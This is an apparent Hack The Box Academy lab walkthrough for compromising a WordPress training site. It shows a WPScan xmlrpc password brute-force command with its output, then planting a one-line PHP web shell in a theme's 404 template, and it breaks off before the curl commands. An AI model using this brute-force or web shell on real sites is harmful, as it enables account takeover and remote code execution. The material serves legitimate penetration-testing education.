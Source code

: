 Students first need to bruteforce the password of the user `erika` using `WPScan`, utilizing the `xmlrpc` technique, since it is faster:

Code: shell

```shell
wpscan --password-attack xmlrpc -t 50 -U erika -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-j6kdmijpjx]─[~]
└──╼ [★]$ wpscan --password-attack xmlrpc -t 50 -U erika -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[+] URL: http://blog.inlanefreight.local/ [10.129.216.109]
[+] Started: Tue Nov  1 09:10:38 2022

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - erika / 010203                                                                                                                                    
Trying erika / tigger1 Time: 00:00:24 <> (700 / 14345092)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: erika, Password: 010203

<SNIP>
```

Thus, the password of the user `erika` is `010203`. Subsequently, using these credentials, students need to navigate to `http://blog.inlanefreight.local/wp-login.php` and login:

![[HTB Solutions/CBBH/z. images/c5969c229456a1b6e3dbe5ab9b8baa1b_MD5.jpg]]

Once logged in, students need to click on "Appearance -> Theme Editor" and then select the `Twenty Seventeen` theme:

![[HTB Solutions/CBBH/z. images/79b42f24818005b769f0f64145b80986_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/74b589358b83cee7ab05b6e9284c7c4c_MD5.jpg]]

After selecting the `Twenty Seventeen` theme, student need to select the `404 Template`, insert a PHP web shell after `<?php` (or alternatively, a reverse shell), and then click on `Update File`:

Code: php

```php
system($_GET['cmd']);
```

![[HTB Solutions/CBBH/z. images/19d6d35b870e6ab8b60df749bd5c8a56_MD5.jpg]]

At last, students need to use the `cmd` URL parameter to list the files within the `/home/erika` directory utilizing `curl` to send the URL-encoded payloads:
